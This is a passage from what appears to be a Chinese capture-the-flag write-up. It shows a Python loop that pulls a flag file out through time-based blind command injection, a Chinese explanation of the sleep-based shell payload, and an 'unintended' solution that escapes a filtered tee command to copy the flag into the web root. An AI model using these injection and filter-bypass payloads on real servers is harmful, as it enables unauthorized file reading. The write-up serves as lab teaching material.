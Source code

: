 ```python
            t1 = time.time()
            r = requests.post(url=url, data=payload2)
            t2 = time.time()
            if t2 - t1 > 1.5:
                result += k
                print(result)
        result += " "

```

```
这个代码片段看起来是一个 Bash 脚本，用于检查一个名为 "/flag_is_h3eeere" 的文件中的特定字符。让我解释一下每个部分的含义：

if [...] then sleep 2; fi: 这是一个条件语句，如果方括号中的条件为真（true），则执行 sleep 2 命令。sleep 2 是一个简单的命令，表示脚本会暂停执行 2 秒。

cat /flag_is_h3eeere | awk NR=={i} | cut -c {j} == '{k}': 这部分是条件的核心，它通过一系列的命令来获取文件中的某个字符，并与给定的字符 {k} 进行比较。

cat /flag_is_h3eeere: 使用 cat 命令将文件 "/flag_is_h3eeere" 的内容显示出来。
awk NR=={i}: 使用 awk 命令选择文件的第 {i} 行。NR 是行号。
cut -c {j}: 使用 cut 命令选择行中的第 {j} 个字符。
最后，整个条件检查是否等于给定的字符 {k}。

这段代码的目的似乎是在特定条件下延迟执行，具体条件取决于文件 "/flag_is_h3eeere" 中的某个字符是否等于给定的字符 {k}。
```

![image-20231211103650424](images/52.png)

但是跑的比较慢

非预期：`ls / |script xxx 这样写到根目录`

```
cat /flag_is_h3eeere|te\\e /var/www/html/2	# 利用\来转义绕过，然后通过管道符把读取的内容写在根目录下，然后我们直接访问写到根目录下的文件就行
```

## GenShin
